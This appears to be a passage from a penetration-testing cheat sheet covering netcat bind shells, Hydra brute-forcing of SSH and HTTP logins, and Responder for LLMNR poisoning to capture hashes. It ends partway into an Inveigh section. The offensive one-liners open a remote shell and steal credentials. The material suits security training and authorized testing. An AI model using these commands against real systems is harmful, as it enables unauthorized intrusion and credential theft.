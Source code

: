 - Bind shell

```
Target: nc -lvnp <PORT> -e <cmd.exe/powershell.exe etc..>
```

```
Attacker: nc -nv <IP> <PORT>
```

<div style="page-break-after: always;"></div>

# Brute-forcing services
---

## Useful links

1. [HackTricks Brute Force Cheatsheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force)

- Burpsuite
- OWASP ZAP

## Hydra

- Example: `hydra -l <USERNAME> -P <PASSWORD_LIST> ssh://<IP_ADDRESS>`
- Example: `hydra -l <USERNAME> -P <PASSWORD_LIST> <IP_ADDRESS> ssh -s <PORT>`
- Example: `hydra -l <USERNAME> -P <PASSWORD_LIST> <TARGET_IP> http-post-form "/Account/login.aspx:<Paste request body from network>`-> view raw, replace fields with ^USER^ and ^PASS^>:Login failed"
- HTTP-GET: `hydra -l <USERNAME> -P <PASSWORD_LIST> <TARGET_IP> http-get "<PATH>"`

<div style="page-break-after: always;"></div>

# Active Directory
---

## Useful links

1. [HackTricks Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
2. [Orange Cyberdefense AD Mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg)

## Using Responder for LLMNR poisoning

- This is very noisy
- Might take a lot of time to intercept traffic

`sudo responder -I <INTERFACE> -dwPv` -> `-v` to display hashes that are already in the potfile

## Using Inveigh for LLMNR poisoning
